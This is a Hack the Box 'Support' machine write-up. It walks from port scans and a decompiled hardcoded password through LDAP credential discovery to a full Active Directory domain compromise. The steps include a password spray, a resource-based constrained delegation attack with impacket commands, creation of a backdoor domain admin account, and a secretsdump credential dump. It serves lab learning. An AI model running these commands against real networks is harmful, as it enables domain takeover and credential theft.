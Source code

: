 ```yaml
---
layout: post
title: Hack the Box - Support
---
```


## NMAP
```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-14 14:27:05Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
# SMB
- We have read access into the "support-tools" share
- ![[anonymous_shares.png]](/images/HTB/Support/anonymous_shares.png)
- In the share there is a bunch of tools but only "UserInfo.exe.zip" seems interesting
- ![[rid_brute.png]](/images/HTB/Support/rid_brute.png)
- Since we have IPC$ access, we can rid brute force to get users
- Command to get list of users from output:
```bash
cat list.txt| awk {'print $6'} | cut -d '\' -f 2 > users.txt
```
# DNSpy
- Under LdapQuery in UserInfo.Services, we see an encoded password and key being xored
- ![[dnspy_enc_passwd.png]](/images/HTB/Support/dnspy_enc_passwd.png)
- Pass: ```0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E```
- Key: ```armando : 61 72 6d 61 6e 64 6f```

```csharp
namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
Steps for getting the password - I used [CyberChef](https://gchq.github.io/CyberChef/) 
- Base64 decode
- xor twice with keys ``
- PW: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


# Password Spray
- Once we obtain the password, we can password spray with our user list
- ![[ldap_pass_spray.png]](/images/HTB/Support/ldap_pass_spray.png)


- We find that the ldap user is valid ```ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```

# Bloodhound
- Nothing interesting from bloodhound with the ldap user
- support user is part of Remote  Management Users
- ![[BH_RMU.png]](/images/HTB/Support/BH_RMU.png)
## NMAP P2
- Running nmap again (all ports) we find 5985 open, WinRM!
```bash
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-28 02:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53608/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking WinRM with CME
- No one from our list with the password above can remote in, we need support user
# Enumerating LDAP
```bash
ldapdomaindump ldap://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "DC=support,DC=htb"
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "CN=support,CN=Users,DC=support,DC=htb" 
```

- There are a bunch of files in the ldapdomaindump we can look through for the search base
- By specifying the support user in the search base, we can see the password in the "info" section
```support : Ironside47pleasure40Watchful```
- ![[support_ldap_pw.png]](/images/HTB/Support/support_ldap_pw.png)
- Check with CME: ![[cme_winrm_support.png]](/images/HTB/Support/cme_winrm_support.png)
- We can remote in!
## Enumeration as support
# Bloodhound
- Looking through at our node, we can see we are a part of "Shared Support Accounts" which has "GenericAll" over the Domain Controller
- ![[BH_edges.png]](/images/HTB/Support/BH_edges.png)
- What does this mean? Full control of a computer object can be used to perform a resource based constrained delegation attack.

[Follwing hacktricks guide for creating the fake computer](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegationhttps://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
	
- I only used [powermad](https://github.com/Kevin-Robertson/Powermad) and [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
New-MachineAccount -MachineAccount TURCO$ -Password $(ConvertTo-SecureString 'turco123!' -AsPlainText -Force) -Verbose
```
```powershell
Set-ADComputer DC$ -PrincipalsAllowedToDelegateToAccount TURCO$ 
```
```powershell
Get-ADComputer DC$ -Properties PrincipalsAllowedToDelegateToAccount
```
- Once we have all that setup, we can verify with:
```powershell
 Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


![[new_fake_com.png]](/images/HTB/Support/new_fake_com.png)

- Next, we can use this [script](https://github.com/tothi/rbcd-attack) to allow us to delegate as Administrator by editing the "msDs-AllowedToActOnBehalfOfOtherIdentity" attribute
```bash
python rbcd-attack/rbcd.py support.htb\\support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -t DC -f TURCO
```
- ![[attribute_edit_success.png]](/images/HTB/Support/attribute_edit_success.png)
- We can also verify everything worked using "impacket-rbcd"

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful -delegate-to 'DC$' -action read -dc-ip 10.10.11.174
```
- ![[impacket-rbcd_proof.png]](/images/HTB/Support/impacket-rbcd_proof.png)

- Lastly, we create the ST using the "ldap/dc.support.htb" SPN 
```bash
impacket-getST support.htb/TURCO$:turco123! -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174
```

- Now we can wmiexec into the Domain Controller as Admin!
- ![[PWNED.png]](/images/HTB/Support/PWNED.png)
```bash
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

## Post Exploitation
# Secretsdump
- Create a new user
```windows
net user turc0 Turco123123!! /add /domain
```
- Add to domain admins group
```windows
net group "Domain Admins" turc0 /add /domain
```

- Dump!
```bash
impacket-secretsdump support.htb/turc0@dc.support.htb -dc-ip 10.10.11.174 -just-dc
```
